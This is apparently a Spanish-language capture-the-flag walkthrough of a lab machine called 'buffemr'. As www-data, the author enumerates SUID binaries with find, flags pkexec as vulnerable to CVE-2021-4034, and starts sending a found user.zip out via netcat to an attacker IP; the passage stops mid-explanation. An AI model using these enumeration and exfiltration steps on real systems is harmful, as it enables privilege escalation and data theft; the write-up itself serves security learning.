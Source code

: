 ## Busqueda de archivos SUID

Comienzo a analizar la maquina victima como el usuario www-data

Busco archivos SUID ( archivos que pueden ser ejecutados como el propietario )

Utilizo el comando **find** indicando que quiero comenzar la busqueda en la raiz y quiero encontrar archivos con permisos -4000

```bash
www-data@buffemr:/$ find / -perm -4000 2>/dev/null | grep -vE "snap"
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/arping
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/sudo
/usr/sbin/pppd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/bin/fusermount
/bin/mount
/bin/su
/bin/ping
/bin/umount
```

Encuentro el binario **/usr/bin/pkexec**, el cual es vulnerable a una escalada de privilegios (CVE-2021-4034)

### Busco informacion util
Me encuentro con un archivo user.zip

```bash
www-data@buffemr:/$ cd /var
www-data@buffemr:/var$ ls
backups  cache  crash  lib  local  lock  log  mail  metrics  opt  run  snap  spool  tmp  user.zip  www
```

## Archivo user.zip

Me descargo el archivo en la carpeta content con netcat 

Desde la maquina victima uso el comando nc con los siguientes parametros

| Parametro    | Descripcion                                          |
| -w3          | Indico que quiero enviar un archivo                  |
| 192.168.0.36 | Indico la IP a la que se le quiere enviar el archivo |
| 1234         | Indico el puerto por el cual se quiere enviar        |
